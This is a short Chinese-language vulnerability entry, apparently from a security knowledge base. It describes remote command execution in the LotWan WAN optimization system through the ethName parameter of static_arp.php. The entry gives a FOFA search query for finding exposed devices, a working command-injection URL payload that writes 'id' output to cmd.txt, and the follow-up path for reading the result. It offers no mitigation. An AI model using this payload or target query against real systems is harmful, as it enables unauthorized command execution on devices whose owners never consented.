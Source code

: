 # 华夏创新 LotWan广域网优化系统 static_arp.php 远程命令执行漏洞

## 漏洞描述

华夏创新 LotWan广域网优化系统 static_arp.php文件参数 ethName存在命令拼接，导致远程命令执行漏洞

## 漏洞影响

<a-checkbox checked>华夏创新 LotWan广域网优化系统</a-checkbox></br>

## FOFA

<a-checkbox checked>title="LotWan 广域网优化系统"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1635942598942-6671fa50-5052-43f6-ab40-bf2c8403bdf8-20220314123722094.png)

存在漏洞的文件为

```php
/acc/bindipmac/static_arp.php?ethName=||id>cmd.txt||
```

![img](../../../.vuepress/public/img/1635942680846-eb442f59-4229-43ad-a133-5c5587d20774.png)

再访问 **/acc/bindipmac/cmd.txt**

![img](../../../.vuepress/public/img/1635942700371-15189d95-a643-4b0d-95bb-14f6285796d2.png)

